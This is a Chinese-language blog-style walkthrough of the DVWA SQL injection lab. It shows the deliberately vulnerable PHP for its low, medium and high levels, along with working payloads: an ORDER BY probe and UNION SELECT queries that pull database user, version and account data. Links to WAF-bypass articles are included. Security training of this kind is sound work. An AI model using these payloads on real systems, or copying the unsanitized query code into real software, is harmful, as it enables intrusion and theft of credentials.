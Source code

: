 ```yaml
---
title: 代码审计之SQL
time: 2016.06.03 10:22:00
layout: post
tags:
- Securtiy
- SQL
catalog: true
excerpt: 通过DVWA学习SQL注入
    


---
```


# SQL injectin
## low
### 目标
窃取到admin的密码
### 源码
```
php
<?php 

if( isset( $_REQUEST[ 'Submit' ] ) ) { 
    // Get input 
    $id = $_REQUEST[ 'id' ]; 

    // Check database 
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';"; 
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' ); 

    // Get results 
    $num = mysql_numrows( $result ); 
    $i   = 0; 
    while( $i < $num ) { 
        // Get values 
        $first = mysql_result( $result, $i, "first_name" ); 
        $last  = mysql_result( $result, $i, "last_name" ); 

        // Feedback for end user 
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>"; 

        // Increase loop count 
        $i++; 
    } 

    mysql_close(); 
	} 

	?> 

```

$_REQUEST的官方说明如下：$_REQUEST — HTTP Request 变量默认情况下包含了 
$_GET，$_POST 和 $_COOKIE 的数组。

也就是说，再不关心是get过来的还是post，总之要取得某一个键的值，就用$_REQUEST就可以了。

不过$_REQUEST速度会比$_GET，$_POST稍慢点。 
### 过程
-  主要问题出现在这：$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";  这里的$id变量直接由 $id = $_REQUEST[ 'id' ];得到，没有进行任何过滤。
-  那么我们就可以通过输入恶意的字符串来进行sql注入。
-  首先，通过order by来确认表 http://localhost:8888/dvwa/vulnerabilities/sqli/?id=1' order by 2 -- &Submit=Submit
   拼接到代码内，$id就为 1' order by 2 --

   对应SQL语句就为 SELECT first_name, last_name FROM users WHERE user_id = '1' order by 2 -- '
   order 3 失败 说明是2

-  然后，依次进行注入即可

   payload：http://localhost:8888/dvwa/vulnerabilities/sqli/?id=-1' union select 1,concat_ws(char(32,58,32),user(),database(),version()) -- &Submit=Submit

   32 表示空格 58为： 
   ![image](https://mo-xiaoxi.github.io/img/post/DVWA/1.png)
   load文件
   ![image](https://mo-xiaoxi.github.io/img/post/DVWA/2.png)
   获取帐户和密码
   ![image](https://mo-xiaoxi.github.io/img/post/DVWA/3.png)

## Medium
### 源码

	<?php

	if( isset( $_POST[ 'Submit' ] ) ) {
		// Get input
		$id = $_POST[ 'id' ];
		$id = mysql_real_escape_string( $id );
	
		// Check database
		$query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
		$result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );
	
		// Get results
		$num = mysql_numrows( $result );
		$i   = 0;
		while( $i < $num ) {
	    	// Display values
	    	$first = mysql_result( $result, $i, "first_name" );
	    	$last  = mysql_result( $result, $i, "last_name" );
	
	    	// Feedback for end user
	    	echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
	
	    	// Increase loop count
	    	$i++;
		}
	
		//mysql_close();
	}
	
	?>
### 	过程
- 这只是在low的基础上加了  $id = mysql_real_escape_string( $id );这个函数是转义sql语句中使用的字符串中的特殊字符(• \x00• \n• \r • \ • ' • " • \x1a)
- 我们仔细看发现，这里的id参数是直接引用的，并没有加任何的引号，所以get请求中id后面的所有内容，可以直接参与sql语句的构建。比如如果id的内容是id = 0 union select database(),user().那拼接到php代码中就是

  select first_name,last_name from users where user_id=0 union select database(),user()

- 然而，其是post提交的 所以，只需要输入如图payload即可
  ![image](https://mo-xiaoxi.github.io/img/post/DVWA/4.png)
  ![image](https://mo-xiaoxi.github.io/img/post/DVWA/5.png)

  绕过waf参考：

  [http://drops.wooyun.org/tips/968](http://drops.wooyun.org/tips/968)

  [http://drops.wooyun.org/tips/7883](http://drops.wooyun.org/tips/7883)

## High
### 源码
session：![image](https://mo-xiaoxi.github.io/img/post/DVWA/6.png)

	<?php

	if( isset( $_SESSION [ 'id' ] ) ) {
		// Get input
		$id = $_SESSION[ 'id' ];
	
		// Check database
		$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
		$result = mysql_query( $query ) or die( '<pre>Something went wrong.</pre>' );
	
		// Get results
		$num = mysql_numrows( $result );
		$i   = 0;
		while( $i < $num ) {
			// Get values
			$first = mysql_result( $result, $i, "first_name" );
			$last  = mysql_result( $result, $i, "last_name" );
	
			// Feedback for end user
			$html .= "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
	
			// Increase loop count
			$i++;
		}
	
		mysql_close();
	}
	
	?>

### 过程

只需要在session界面注入即可

![image](https://mo-xiaoxi.github.io/img/post/DVWA/7.png)

![image](https://mo-xiaoxi.github.io/img/post/DVWA/8.png)

